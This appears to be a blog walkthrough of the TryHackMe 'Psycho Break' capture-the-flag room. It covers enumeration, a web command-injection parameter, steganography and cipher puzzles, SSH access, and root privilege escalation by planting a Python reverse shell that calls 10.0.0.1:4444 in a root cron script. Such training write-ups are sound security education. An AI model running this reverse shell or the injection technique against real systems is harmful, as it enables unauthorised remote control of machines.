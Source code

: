 ```yaml
---
layout: post
title: Psychobreak
date: 2020-11-14 19:00:00 +0000
categories: [Tryhackme, Easy]
tags: [thm]
image: /assets/img/tryhackme/psychobreak/room_icon.jpeg
---
```



Psycho Break is a TryHackMe room which is based on the video game “The Evil Within”. The objective is to get the user flag and the root flag.

![cover image](/assets/img/tryhackme/psychobreak/1.png)

**Author** | Shafdo
**Description** | Help Sebastian and his team of investigators to withstand the dangers that come ahead

Deploy the VM and let’s go…

First up is enumeration

## Task 1
---

![nmap](/assets/img/tryhackme/psychobreak/3.png)
<p>A simple nmap scan would give the answers to the first task. So I tried to login to the ftp service. Anonymous login is not enabled in ftp service. So let’s move on to http.</p>


## Task 2
---

![http_service](/assets/img/tryhackme/psychobreak/4.png)
<p> In the source page we can find the room name. Let’s go into the room.</p>

![Sadist_room](/assets/img/tryhackme/psychobreak/5.png)
<p>We can get the key to the locker room by clicking the given link. But wait… seconds after clicking the link the the background changes and a alert box asking for the key pops up.</p>

![Sadist_room2](/assets/img/tryhackme/psychobreak/6.png)
<p>After entering the key, we can see the locker room page. After looking at the link to the map, it seems we need to decode the piece of text to get the map.</p>

![Locker_room](/assets/img/tryhackme/psychobreak/7.png)
<p>At first I thought it was rot13 encoded but I was wrong. Go the link [vigenere-solver](https://www.guballa.de/vigenere-solver) and choose the correct variant given in the image to decode the text</p>

![decode](/assets/img/tryhackme/psychobreak/8.png)
<p>After decoding, enter the decoded text to get access to map. Let’s move on to the next room…</p>

![Safe_haven](/assets/img/tryhackme/psychobreak/11.png)
<p>In the source code of the page we can find a hint.<p>

![Safe_haven_hint](/assets/img/tryhackme/psychobreak/12.png)
<p>I had a hard time in this part. I tried enumerating using various methods but it took me more than a hour to finally find this.</p>

<pre>gobuster dir -u http://<ip-address>/ -w /usr/share/dirb/wordlist/medium.txt -x php,txt,js,html -t 100</pre>

<p>use gobuster with the medium wordlist to find the hidden directory.</p>

![The_keeper](/assets/img/tryhackme/psychobreak/14.png)
<p>After clicking on the link we are redirected to another page.</p>

![Save_yourself](/assets/img/tryhackme/psychobreak/15.png)
<p>A simple google image search would tell the answer right away. And we’ll get the keeper’s key. So let’s go to the final room given in the map.</p>

![Abandoned_room](/assets/img/tryhackme/psychobreak/18.png)
<p>After clicking on the link, it redirects to another page.</p>

![Spiderlady](/assets/img/tryhackme/psychobreak/19.png)
<p>After looking at the source page, I found a hint which told that the keyword *“shell”* would be useful. So, I tried appending it to the end of the url but there was no response. Finally, after setting it with value, it responds….</p>

<pre>http://<ip-address>/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls ..</pre>

![dir_list](21.png)
<p>I downloaded the two files after moving into the other directory that was returned in the response.</p>

## Task 3
---
<p>The text file is just a message so I extracted the zip file. Extract the contents of the image file using binwalk since it was corrupted.</p>

<pre>binwalk -e image.jpg</pre>
<p>After listening to the .wav file I found that it was morse code. So, I decrypted using [Morse Decoders](https://morsecode.world/international/decoder/audio-decoder-expert.html).</p>

![sound_file_decryption](/assets/img/tryhackme/psychobreak/27.png)
<p>Using the message that is decrypted  to extract the contents of the other image file with steghide.</p>

<pre>steghide --extract -sf image_file.jpg</pre>
<p>The text file gives the ftp credentials. Let’s login to ftp…</p>

![FTP_creds](/assets/img/tryhackme/psychobreak/28.png)

## Task 4
---
<p>I found two files in the ftp server and I downloaded using the get command.</p>

<pre>get <file-name></pre>
![program](/assets/img/tryhackme/psychobreak/30.png)

<p>After running the program file I found that it takes a word as a argument. So, I ran the bash script.</p>

```
for i in $(cat list.dic);
do
./program $i;
done
```

![program_decryption](/assets/img/tryhackme/psychobreak/31.png)
<p>There is another bunch of numbers given to be decoded. This is multitap phone cipher. It can be cracked using [dcode]().</p>


## Task 5
---
<p>The decoded text is the SSH password. Without further wait, let’s login to ssh.</p>

![ssh_login](/assets/img/tryhackme/psychobreak/34.png)
<p>We found the user.txt in the home directory and some other hidden files</p>

![ssh_hidden_dirs](/assets/img/tryhackme/psychobreak/35.png)
<p>After reading the .readThis.txt file, it seems there is a file with the name the_eye_of_ruvik. So, I checked the /etc/crontab and I was right, there is a file named .the_eye_of_ruvik.py that runs as root for very 30 secs and whats more is we can edit the file.</p>

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

<p>So, I appended the python reverse shell in the file and opened a netcat listener in my local machine. After a few seconds I got the reverse shell.</p>

![root_flag](/assets/img/tryhackme/psychobreak/39.png)
<p>We also got the root flag.</p>

## Bonus
---
![bonus_flag](/assets/img/tryhackme/psychobreak/40.png)

<p>The bonus task is to delete the user ruvik</p>

<pre>userdel -r ruvik</pre>
<p> Run this as root</p>

<p>That’s it folks. Happy Hacking!!! :sunglasses: </p>
